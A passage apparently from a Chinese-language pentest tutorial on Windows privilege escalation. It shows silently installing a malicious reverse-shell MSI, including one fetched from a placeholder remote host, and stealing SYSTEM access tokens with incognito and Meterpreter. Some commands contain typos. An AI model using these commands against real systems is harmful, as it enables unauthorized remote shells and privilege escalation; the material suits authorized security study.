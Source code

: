将生成的恶意msi文件上传到目标服务器，执行以下命令

```
msiexec /quiet /qn /i C:\reverse_tcp.msi
```

"/quiet":静默安装程序，不像用户发送任何消息

“/qn”:无GUI模式安装,也可以使用"/q"

"/i": 常规安装操作

msiexec同样可以访问处于公网上的msi文件，但是需要证书才能下载安装到本地

```
msiexec /q /i http://xxx.com/reverse_tcp.msi
```

由于msf生成的msi文件，在执行命令时，可能不会要求提升权限，所以有时会导致执行失败，可以使用Powerup脚本，或直接使用MSI Wrapper来生成msi文件

下载地址：https://www.exemsi.com/download/

https://github.com/PowerShellMafia/PowerSploit/tree/master

## 访问令牌操纵

###  访问令牌

Windows中的访问令牌分为主令牌和模拟令牌，主令牌与进程相关联，每个进程都有一个主令牌。通过操纵访问令牌来使某个进程正在运行的进程像是其他用户启动进程的子进程，从而达到提权的效果，称为令牌窃取。由于需要调用windows上的特殊API，因此通常用于将管理员用户剃刀SYSTEM等更高级的用户

### 常规窃取操作

**利用incognito窃取**

将incognito.exe上传到目标机器，通过该应用，我们能够达到窃取目标令牌的目的

执行下列命令，列举当前所有的令牌

```
incognito.exe list_tokens -u
```

查找到目标用户的进程，我们边可以通过指定该用户，使用令牌进行访问

```
incognito.exe exectue -c "NT AUTHORITY\SYSTEM" whoami
-c指定目标用户，whoami为后续执行的命令
```

**利用metasploit进行窃取**

metasploit中内置了一个incognito模块，当获取到meterpreter_shell后

```
load incognito
list_tokens -u  #列举
impersonate_token "NT AUTHORITY\SYSTEM"
steal_toekn <PID>  #从指定进程的pid窃取token
```
